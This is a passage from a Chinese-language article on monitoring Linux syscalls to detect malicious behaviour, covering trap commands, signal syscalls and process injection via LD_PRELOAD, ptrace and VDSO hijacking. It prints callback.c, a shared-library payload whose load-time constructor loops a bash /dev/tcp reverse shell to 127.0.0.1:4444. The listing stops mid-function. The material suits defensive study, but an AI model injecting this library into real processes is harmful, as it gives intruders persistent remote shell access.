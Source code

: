 trap命令必须为外壳程序（shell解释器）或程序注册，因此会出现在文件中。监视文件中的可疑或过于广泛的trap命令可以缩小调查过程中的可疑行为。监视通过trap中断执行的可疑进程。
![img](images/1594609883.png!small)

监控的参考syscall
kill,tkill,tgkill,rt_sigaction,rt_sigpending,rt_sigprocmask,rt_sigqueueinfo,rt_sigsuspend,rt_sigtimedwait,signalfd,signalfd4,rt_sigreturn,sigaltstack

## 0x05:权限提升之syscall

进程注入是一种在单独的活动进程的地址空间中执行任意代码的方法。在另一个进程的上下文中运行代码可能会允许访问该进程的内存，系统/网络资源以及可能的特权提升。由于执行被合法程序掩盖了，因此通过进程注入执行还可以避开安全产品的检测。

\1. LD_PRELOAD，LD_LIBRARY_PATH（Linux）环境变量或dlfcn应用程序编程接口（API）可用于在过程中动态加载库（共享库），该过程可用于拦截来自运行过程。

\2. Ptrace系统调用可用于附加到正在运行的进程并在运行时对其进行修改

\3. VDSO劫持通过操纵从linux-vdso.so共享库映射的代码存根，对ELF二进制文件执行运行时注入。 TES 恶意软件通常利用进程注入来访问系统资源，从而可以对持久性和其他环境进行修改。使用命名管道或其他进程间通信（IPC）机制作为通信通道，更复杂的样本可以执行多个过程注入以分割模块并进一步逃避检测。

要注入的代码callback.c：

```
#include <pthread.h>
#include <stdlib.h>
#include <unistd.h>

#define SLEEP  120                    /* Time to sleep between callbacks */
#define CBADDR "127.0.0.1"           /* Callback address */
#define CBPORT "4444"                 /* Callback port */

/* Reverse shell command */
#define CMD "echo 'exec >&/dev/tcp/"\
            CBADDR "/" CBPORT "; exec 0>&1' | /bin/bash" //进行反向shell

void *callback(void *a);

__attribute__((constructor)) /* Run this function on library load */
// 在动态库加载之后运行该函数
void start_callbacks(){
        pthread_t tid;
        pthread_attr_t attr;

        /* Start thread detached */
        if (-1 == pthread_attr_init(&attr)) {
                return;
        }
        if (-1 == pthread_attr_setdetachstate(&attr,
                                PTHREAD_CREATE_DETACHED)) {
                return;
        }

        /* Spawn a thread to do the real work */
        pthread_create(&tid, &attr, callback, NULL); //创建线程
}


void *
callback(void *a)
{
        for (;;) {
                /* Try to spawn a reverse shell */
                system(CMD);
                /* Wait until next shell */
                sleep(SLEEP);
        }
        return NULL;
```